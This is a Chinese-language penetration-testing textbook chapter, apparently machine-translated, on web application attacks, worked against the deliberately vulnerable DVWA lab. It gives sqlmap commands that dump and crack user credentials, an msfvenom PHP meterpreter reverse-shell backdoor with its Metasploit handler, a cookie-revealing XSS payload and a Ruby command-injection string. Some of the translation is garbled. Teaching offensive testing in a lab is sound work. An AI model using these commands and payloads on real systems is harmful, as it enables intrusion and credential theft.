# 八、攻击 Web 应用

Web 应用是最有针对性的折衷方法。今天，我们有提供电子商务服务的 web 应用，这是攻击者的目标，因为他们可以获取信用卡和个人身份信息等详细信息。拥有互联网存在的企业必然拥有一个公众可以访问的 web 应用。Web 渗透测试需要技能和时间，了解 Web 应用的组件、攻击类型和可使用的工具将有助于您在短时间内关注可利用的漏洞。

在本章中，您将了解 web 应用及其组件。您将了解不同类型的 web 应用安全测试，以及渗透测试如何适应。您还将了解 HTTP 协议的基础知识，以及在渗透测试过程中如何关注 HTTP 协议的各个方面。最后，您将了解一些常见的 web 应用攻击，以及如何利用 Kali Linux 中的一些工具使用直觉执行各种攻击。

随着本章的学习，您将了解以下主题：

*   准备您的环境
*   web 应用安全测试的类型
*   web 应用的组件
*   理解 HTTP 协议
*   常见的 web 应用攻击
*   攻击 web 应用

# 技术要求

要遵循本章中的示例和说明，请确保您具有以下技术要求：

*   Kali Linux 2019.1
*   表 2

# 准备您的环境

在本章中，我们将使用各种 web 应用和工具。

在上一章中，您学习了如何使用BurpSuite；在本章中，我们也将利用 Burp 套件的一些部分。

请注意您的 Metasploitable 2 虚拟机 IP 地址。在本章的各个部分中，我们将积极使用这一点。综上所述，可以通过登录虚拟机（默认用户名和密码为`msfadmin`并键入`ifconfig`命令来获取 IP 地址。

# web 应用安全测试的类型

web 应用测试有三种类型，其定义如下：

*   **动态测试**：这种类型的测试不需要 web 应用的源代码。其目的是发现攻击者可能从不受信任的位置（如互联网）利用的漏洞。
*   **静态测试**：这种类型的测试使用 web 应用的源代码。它的工作原理是从 web 应用中查找漏洞，而不是试图从不受信任的位置破坏 web 应用。
*   **渗透测试**：这类测试是我们在本章将重点介绍的。它需要使用 human 元素来模拟攻击者可能如何利用 web 应用进行攻击。它利用技巧、直觉和各种工具。

# web 应用的组件

Web 应用已经从静态 Web 页面演变为提供多种功能的复杂应用。您可以将 web 应用视为一个简单地在 internet 上运行的普通计算机应用。

在本节中，我们将讨论 web 应用的各种组件。

# Web 应用体系结构

Web 应用体系结构是各种组件之间的交互。web 应用体系结构的三种主要类型如下：

*   **单页应用（SPA）**：这些应用现在很常见，**极简主义**成为 web 应用的主流。它们通过动态地将内容更新到当前页面来工作。使用**异步 Javascript 和 XML**（**AJAX**提供动态内容。这些类型的应用仍然容易受到攻击。
*   **微服务**：这些是轻量级的，专注于单一功能。微服务利用各种编码语言，因此该体系结构中存在漏洞。
*   **无服务器**：利用云提供商处理服务器和基础设施管理。这使得应用可以在不担心基础设施的情况下工作。此处存在诸如身份验证中断、日志记录不足、应用存储不安全等漏洞。

在这三种模型中，都存在安全风险。因此，无论使用何种模型，都需要进行渗透测试。

# Web 应用语言

由于 web 应用的多样性和动态性，有几种语言可用于编写 web 应用。这些语言有时会以对整个 web 应用的安全性有严重影响的方式进行交互。

这些常用的语言是 Python、Ruby 和 Java。让我们看看这些语言的一些警告。

# python

Python 是一种由于其简单性和强大功能而经常使用的语言。它创建了一个生态系统，可以跨多个不同的应用工作，这些应用不仅与 web 应用相关。

Python 使用了一种称为**pickles**的序列化机制。序列化是在结构中创建数据的过程，该结构可以存储并在以后恢复为原始形式。使用**pickles**可以将对象转换为字节流，然后再转换回来。使用 pickle 可以用于很多事情，比如 cookie 值和`auth`令牌。

示例 pickle 如下所示：

```
def verifyAuth(self, headers):
   try:
      token = cPickle.loads(base64.b64decode(headers['AuthToken']))
      if not check_hmac(token['signature'], token['data'], getSecretKey()):
        raise AuthenticationFailed
      self.secure_data = token['data']
    except:
      raise AuthenticationFailed
```

此函数获取一个`AuthToken`，它是 base64 编码的，对其进行解码，并检查其值。当然，如果被攻击者截获，这个`AuthToken`可以被解码。或者，攻击者可以编写一个漏洞来创建修改后的`AuthToken`。

这只是 web 应用开发人员可能忽略的安全缺陷的一个方面。

# 红宝石

由于 RubyonRails，Ruby 是一种用于 web 应用的流行语言。RubyonRails 是一个框架，它包含了开发人员创建利用数据库的 web 应用所需的一切。该框架是免费使用的，社区积极参与，这使得它成为一种流行的选择。

Ruby 也容易受到攻击，例如，使用`string interpolation`的漏洞。字符串插值允许您替换 Ruby 代码的结果。

例如，以下代码将写出`Hello User!`，因为`#{}`中定义的任何内容都将被计算：

```
name = "User"
puts "Hello, #{name}!"
```

将字段修改为`#{%x['ls']}`将诱使服务器列出其目录结构。

由于 Ruby 用于快速部署 web 应用，因此可能存在我们刚才讨论的漏洞。Ruby 中糟糕的编码可以利用更多的漏洞。

# JAVA

Java 是一种已经存在很长时间的编程语言。它不仅在 web 应用中被广泛使用。也就是说，它以存在安全漏洞而闻名。这些漏洞影响编程语言的各个方面，以及利用它的应用。要了解 Java 中存在的漏洞数量以及它如何跨越多个应用或操作系统，只需搜索 Rapid 7 的漏洞并利用数据库中的**Java**。如以下屏幕截图所示，结果令人震惊：


图 1：存在的 Java 漏洞列表

您可以进入[访问最新的搜索结果 https://www.rapid7.com/db/?q=Java &类型=nexpose](https://www.rapid7.com/db/?q=Java&type=nexpose)。

现在存在着更多的 web 应用语言，它们中没有一种是没有漏洞的。在执行渗透测试时，识别底层编程语言将帮助您关注可能存在的漏洞。

# 理解 HTTP 协议

**超文本传输协议**（**HTTP**是一种客户机-服务器协议。web 浏览器被归类为客户端，它向服务器发出请求，服务器将对请求做出响应。默认情况下，HTTP 使用端口`80`，但如果需要，可以配置此端口。

HTTP 是无状态的，这意味着服务器不存储与向其发出请求的各种用户相关的任何信息。例如，您可以向 web 应用发送多个请求，这些请求将被单独处理。HTTP 也是一种明文协议，因此通过 HTTP 发送的任何敏感信息都可以使用 Wireshark：



图 2：通过 HTTP 传输的明文凭证

SSL 用于保护数据，使用的协议为**超文本传输协议安全**（**HTTPS**。默认情况下，HTTPS 在端口`443`上运行，如果需要，也可以重新配置。

让我们看看一些 HTTP 请求和响应。

# HTTP 请求和响应

当客户端向服务器发送请求时，这称为 HTTP 请求。在这个 HTTP 请求中，我们有头和主体。标头包含请求、cookie 和编码信息等信息。正文包含将要交换的实际数据。

在下面的屏幕截图中，我们有一个 HTTP 请求头的示例：


图 3:HTTP 请求头

第一行以`GET`请求方法开始，然后我们有被请求的`/download.html`资源，以及 HTTP 版本，即`HTTP/1.1`。

在 HTTP 请求头中还可以找到其他一些请求方法。详情如下:

| `POST` | 这用于将数据发送到服务器。 |
| `DELETE` | 这用于删除文件。 |
| `PUT` | 这用于上载文件。
 |
| `HEAD` | 这仅用于`GET`HTTP 头。 |

此标题中有几个字段。让我们来看看相关领域：

*   **主机**：一台 web 服务器可以承载多个站点。此字段用于定义我们尝试访问的主机。
*   **用户代理**：此字段定义用于访问主机的客户端。
*   **Cookie**：交换 Cookie 是为了跟踪会话信息。
*   **Referer**：此字段将显示您是否已从其他 URL 重定向。攻击者将操纵 referer 字段将用户重定向到恶意网站。这种操作可以通过 XSS 完成。

当服务器响应时，它将使用 HTTP 响应进行响应，该响应与 HTTP 请求具有类似的结构。在下面的屏幕截图中，我们有一个 HTTP 响应示例：



图 4：HTTP 响应的示例

在第一行中，我们有一个状态代码`200`。可能出现的各种代码定义如下：

| **状态码** | **定义** | **示例** |
| `1xx` | 信息 | `100`：服务器同意处理客户端请求 |
| `2xx` | 成功 | `200`：请求成功 |
| `3xx` | 重定向 | `301`：页面已移动 |
| `4xx` | 客户端错误 | `403`：禁止页面 |
| `5xx` | 服务器错误 | `500`：内部服务器错误 |

有关状态代码的完整列表，请访问以下 URL:[https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html](https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html) 。

在回答中，我们有几个有趣的领域：

*   **服务器**：此字段定义 web 服务器的服务器版本。马上，我们可以看到我们有一条侦察信息，可以用于渗透测试。
*   **设置 cookie**：在前面的截图中没有设置。此字段将填充 cookie 值，服务器将使用该值标识客户端。

# 常见的 web 应用攻击

Web 应用攻击和向量正在快速发展。随着互联网用户数量的增加，企业必须适应并利用复杂的 web 应用为客户甚至员工提供服务。把这些放在互联网上显然会让他们面临风险。大多数企业都非常重视安全性，并且，随着各种软件开发生命周期的使用，有一些真正安全的 web 应用。

然而，随着安全措施的加强，袭击事件也变得更加严重。除了攻击变得越来越复杂外，还有人为错误。利用 web 应用只需要一段写得很差的代码。

在本节中，我们将考虑一些常见的 Web 应用攻击。

# 包含攻击（LFI/RFI）

web 应用中存在写得不好的文件包含漏洞。这种类型的漏洞允许攻击将数据提交到服务器上的文件中，甚至上传文件。

**本地文件包含****LFI**漏洞涉及 web 应用和底层操作系统上的本地文件。如果利用此漏洞，攻击者将能够读取和执行文件或代码。

**远程文件包含**（**RFI**漏洞涉及执行对 web 应用远程的代码。在此攻击中，攻击者可以在远程位置的服务器上托管易受攻击的代码。然后，攻击者可以利用 web 应用访问远程服务器并执行代码。

# 跨站点请求伪造（CSRF）

为了理解 CSRF，让我们后退一步，讨论 Web 应用如何处理会话。在使用 HTTP 时，使用 cookie 跟踪用户的身份验证。Cookie 通常应该是安全的，因为它具有强大的加密强度和熵，并且应该通过 HTTPS 等安全通道进行传输。

当浏览器在不检查请求来源的情况下向网站提交 cookie 时，会留下一个缺口，CSRF 会利用这个缺口。CSRF 涉及到攻击者使用恶意代码向目标网站发出请求，该请求看起来似乎来自原始发件人。使用合法 cookie，并向目标 web 应用发出伪造请求。web 应用将发现并接受这个伪造的请求，因为它有一个有效的 cookie，并且将处理请求中定义的操作。

为了使 CSRF 发挥作用，有几件事需要落实到位：

*   被攻击的 web 应用不应检查 HTTP 标头中的引用。
*   这允许 web 应用接受来自外部页面的请求。
*   web 应用将接受来自 URL 或表单的数据修改。
*   攻击者必须能够确定 web 应用预期的所有输入值。例如，当重置密码时，web 应用将查找密码值，可能还有密码确认。
*   被攻击的用户必须加载恶意页面。

CSRF 攻击的一个示例是具有多个图像的恶意页面。当不知情的用户被引导到此页面时，图像将加载。某些图像可能是**操作**，导致浏览器对目标 web 应用执行某些请求。

# 跨站点脚本（XSS）

XSS 是 web 应用中最常见的漏洞之一。这种类型的攻击已经在**OWASP 前 10**漏洞列表中出现了一段时间。此攻击利用注入技术，使攻击者能够执行可执行各种目的的脚本。浏览器将执行脚本，因为它认为脚本源自 web 应用。

跨站点脚本可以分为三种不同的类型。这些定义如下：

1.  **持久（类型 1）**：在这种类型的 XSS 中，恶意输入存储在目标服务器中。例如，它可以存储在数据库、论坛和评论字段中。
2.  **反射 XSS（类型 II）**：在这种类型的 XSS 中，web 应用会立即返回数据。这可以通过错误消息、搜索查询或任何其他响应实现。这里的要点是，数据是通过请求返回的。

3.  **基于 DOM 的 XSS（类型 0）**：在这种类型的 XSS 中，漏洞位于客户端而不是服务器端。例如，服务器端 HTML 页面不会更改，但在客户端，由于在**文档对象模型**（**DOM**环境中进行了修改，页面的执行方式不同。

当攻击者利用 XSS 攻击时，可以访问组件，如 cookie、会话密钥和其他敏感信息。

# SQL 注入（SQLi）

SQLi 攻击已经存在很长一段时间了，但它们在今天编写糟糕的 web 应用中仍然有效。这种类型的攻击适用于使用后端数据库（如 Microsoft SQL 和 MySQL）的 web 应用。

此攻击成功后，可以访问敏感信息。可以修改（删除、更新和添加）数据库中的数据，并且可以绕过身份验证和授权控制。

存在各种类型的 SQL 注入攻击。其中一些定义如下：

*   **基于错误的攻击**：这种类型的攻击通过向数据库发送无效命令来工作。这通常是通过需要输入的 web 应用片段来完成的，例如，用户输入。当这些无效的命令被输入时，我们希望服务器会回复一个包含详细信息的错误，为我们提供信息。例如，服务器可能会回复其操作系统、版本，甚至完整的查询结果。
*   **基于联合的攻击**：这种类型的攻击利用`UNION`操作符扩展查询结果，最终允许攻击者运行多条语句。关键是结构必须保持与原始语句相同。
*   **盲注入攻击**：这种类型的攻击被称为**盲**，因为没有显示错误消息。在此攻击中，使用一系列真假查询来查询数据库，以获取可用于攻击的信息。

了解这些攻击是有益的，因为它们将帮助您在渗透测试期间使用正确的攻击类型。在本章后面，我们将利用一个名为`sqlmap`的工具来执行一些 SQL 注入攻击。

# 命令执行

命令执行是一种攻击，在这种攻击中，目标为操作系统的命令可以通过易受攻击的 web 应用执行。这是由将不安全的用户输入传递到服务器的应用实现的。

命令执行攻击可能导致严重危害，具体取决于您可以执行的系统命令类型和 web 应用的权限级别。

# 攻击 web 应用

作为渗透测试人员，您不应该仅仅依赖可用于 web 应用攻击的工具。在渗透测试过程中，熟悉这些知识肯定会有所帮助，因为您可能会被时间所迫。

在本节中，我们将讨论各种工具，并了解如何使用它们对各种 web 应用执行攻击。

# 尼克托人

Nikto 是 Kali Linux 默认附带的 web 服务器扫描程序。它能够提取或识别以下信息：

*   服务器版本
*   潜在危险的程序或文件
*   服务器配置项
*   已安装的 web 服务器

Nikto 的一些主要特点如下：

*   对 SSL 的支持
*   HTTP 代理支持
*   使用输入文件扫描多个目标的能力
*   能够调整扫描引擎

Nikto 不是设计来偷偷摸摸的。在渗透测试中使用此工具可能会导致 IPS/IDS 进行检测。

# 使用 Sqlmap

Sqlmap 是一个开源工具，默认情况下随 Kali Linux 提供。它用于自动检测和利用 SQL 注入缺陷，以及接管 web 应用的数据库。它使用了广泛的选项，允许指纹、数据访问、执行等。

`sqlmap`的语法为`sqlmap <options>`。

`sqlmap`的特点如下：

*   支持多种 SQL 产品，如 MySQL、PostgreSQL、Microsoft SQL、Oracle 和 SQLite。
*   它支持 SQL 注入技术，如布尔和基于时间的盲查询、堆叠查询、基于错误的查询、联合查询和带外查询。
*   它能够枚举用户、密码哈希、权限等。
*   它能够识别密码散列的类型，并支持使用字典攻击破解密码散列。
*   它能够与数据库的底层操作系统交互。这可用于下载或上载文件，使用交互式命令提示符或 MeterMeter 会话创建反向 shell，或执行命令。
*   它支持将数据库作为一个整体或其特定部分转储，例如特定列或一系列条目或字符。
*   它能够利用 meterpeter`getsystem`命令提升权限。

现在我们已经对 Sqlmap 进行了简要的概述，让我们来看看这个工具的作用。我们将使用此工具对 Metasploitable 2 中内置的**该死的易受攻击的 Web 应用**（**DVWA**）执行一些攻击。

# 使用 Sqlmap 执行攻击

让我们看看如何使用 SqLMAP 来对在 Masasopual 2 中默认安装的 DVWA 进行各种攻击。

# 信息收集

我们要做的第一件事是收集一些信息。让我们看看在执行任何攻击之前可以获得哪些信息：

1.  在 Kali Linux 中使用 Firefox ESR，导航到 Metasploitable 2 IP 虚拟机的 IP 地址。单击 DVWA 并使用以下凭据登录：
    *   **用户名**：`admin`
    *   **密码**：`password`
2.  单击左侧导航窗格上的 DVWA 安全性，并在脚本安全性下选择低。然后，单击提交：



图 5：将 DVWA 安全级别设置为低

3.  接下来，单击 SQL 注入并在 User ID:字段中输入数字 1。在单击提交之前，请确保已启用 Burp Suite 代理，并且已将浏览器配置为使用 Burp Suite 代理。启用代理后，单击提交。
4.  注意被截取的字段。我们对`cookie`和`PHPSESSID`*感兴趣*

 *

图 6:DVWA SQLi 截获

5.  我们要做的第一件事是尝试使用`--dbs`选项枚举所有数据库。为此，我们将使用我们捕获的`cookie`和`PHPSESSID`值。我们将使用的命令如下：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" --dbs
```

在这个命令中，我们使用`-u`参数定义目标 URL。此 URL 是带有`GET`请求（`/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`的 DVWA web 服务器（Metasploitable 2）的 IP 地址。我们指定`cookie`和`PHPSESSID`值，并使用`--dbs`选项列出所有数据库。
注意以下输出。Sqlmap 能够识别数据库，并询问我们是否要继续对其他数据库进行测试：



图 7:Sqlmap 数据库标识

6.  我们将选择*Y*跳过特定于其他 DMB 的测试有效载荷，并选择*N*跳过后面提示的问题。一旦`sqlmap`完成，它将为您提供一些有价值的信息。在这里，我们确定了一些注入点、有关底层操作系统的信息以及存在的数据库名称：


图 8：包含有价值信息的 Sqlmap 输出

我们可以使用`-f`选项对数据库进行指纹识别，如下所示：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -f
```

我们得到以下输出：


图 9：确定软件版本

现在我们已经获得了与 DVWA 相关的信息，让我们进一步执行一些额外的攻击。

# 从 SQL 表转储用户详细信息

我们将执行的下一个攻击是从 SQL 数据库获取有关用户的信息。为此，我们将针对`dvwa`数据库。让我们开始：

1.  使用以下命令获取数据库中的当前表：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -D dvwa --columns
```

在这个命令中，我们正在查找与`dvwa`数据库（`-D dvwa`相关的列（`--columns`。注意，在输出中，我们有一个有趣的表，它被列为`users`，列有`firstname`*、*`lastname`*、*`userid`和`password`：


图 10：`dvwa`数据库中用户表的列

现在我们已经确定了一个有趣的表，让我们继续并转储该表，看看是否能够使用字典攻击破解哈希。

2.  通过使用以下命令，我们将转储所有表的表项：

```
sqlmap -u "http://192.168.34.137/dvwa/vulnerabilities/sqli/id=1&Submit=Submit" --cookie="security=low; PHPSESSID=94488715a0d380b4abcf6253fbfced25" -D dvwa --dump
```

在这个命令中，我们使用`--dump`选项查看`dvwa`数据库中所有表的所有条目。当命令运行时，`sqlmap`将询问是否应该使用字典攻击来尝试破解密码。通过选择`yes`选项，`sqlmap`将提示输入字典文件。使用内置的字典文件就足够了。注意产出；您将看到，我们有被转储的用户表，以及所有详细信息，包括每个用户的密码，以哈希形式和明文形式：


图 11：使用 Sqlmap 转储的用户详细信息

在本节中，我们已经了解了 Sqlmap 的有效性。使用此工具，您可以在渗透测试期间遇到时间限制时自动执行一些攻击。我们专门研究了如何执行信息收集、枚举表和提取用户凭据。Sqlmap 具有更多的特性，因此它是渗透测试工具包中的必备工具。

# 使用 PHP 创建后门

让我们来看看使用恶意的 To.t0 文件来创建一个后门到 Web 应用的底层操作系统。在这里，我们将使用 DVWA，因为它允许我们上传文件。

确保 DVWA 的安全级别设置为低。默认登录用户名为`admin`，密码为`password`。

我们将使用 MSFvenom 创建一个 PHP 文件，该文件将为我们提供一个反向 shell。用于侦听连接的处理程序将在 Metasploit 中设置。这些步骤概述如下：

1.  在 Kali Linux 内的终端窗口中，输入以下命令以创建恶意 PHP 后门：

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Attacker IP Address> LPORT=<Port to connect to> -f raw > msfv-shell.php
```

在该命令中，我们将有效载荷（`-p`定义为`php/meterpreter_reverse_tcp`，然后定义攻击机器的 IP 地址（`LHOST`和反向外壳将建立在的端口（`LPORT`。我们没有使用任何编码器；我们只需要原始的`php`文件（`-f raw`。文件名应为`msfv-shell.php`（`> msfv-shell.php`。

2.  一旦 PHP 文件生成，我们将把它上传到 DVWA。登录到 DVWA 并导航到左侧的上载部分。点击浏览。。。并导航到创建`msfv-shell.php`文件的位置。然后，选择它。文件上传后，请注意上传到的位置：



图 12:MSFVenom 恶意 PHP 文件上传

3.  在连接到上传的 PHP 页面的位置之前，我们需要在 Metasploit 中设置一个处理程序。为此，我们将使用`msfconsole`命令打开 Metasploit 框架。
4.  加载 Metasploit 框架后，我们将使用以下命令创建处理程序：

```
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST <LHOST value>
set LPORT <LPORT value>
exploit
```

5.  创建处理程序后，我们可以导航到上载位置并单击 msfv-shell.php 文件：



图 13：访问恶意 PHP 文件

6.  一旦文件被访问，在 Metasploit 控制台上，您将有一个 MeterMeter 会话：



图 14：建立反向流量计外壳

从这里，您可以选择放入系统外壳，上传/下载文件，等等。

# 执行 XSS 攻击

在这里，我们将使用 DVWA 并了解如何执行反射和存储 XSS 攻击。我们将 DVWA 的安全级别保持在低设置。

# 执行反射 XSS 攻击

在此场景中，我们将执行反射 XSS 攻击。在此攻击中，我们将向 web 应用发送请求，迫使它显示一些敏感信息。我们将执行以下攻击：

1.  登录到 DVWA 并单击 XSS。此页面的默认操作是简单地`echo`输入到字段中的任何输入。因此，我们将尝试强制应用向我们提供`cookie`和`PHPSESSID`等信息。

2.  你叫什么名字？字段中，我们将输入一个简单的脚本，该脚本将为我们提供我们正在寻找的`cookie`和`PHPSESSID`数据。输入以下命令：

```
<script>alert(document.cookie);</script>
```

在这个脚本中，我们告诉 web 应用通过提供一个弹出窗口来**提醒**我们。这里我们调用`document.cookie`，它将提供当前的`cookie`和`PHPSESSID`值。注意产出；我们现在有了我们所追求的`cookie`和`PHPSESSID`值：


图 15：使用反射 XSS 提供敏感数据

现在我们已经获得了所有必需的详细信息，我们将尝试向该页面中插入一个表单，以诱骗用户输入他们的凭据。我们还将强制 web 应用将输出发送到其他位置，而不是在屏幕上弹出：

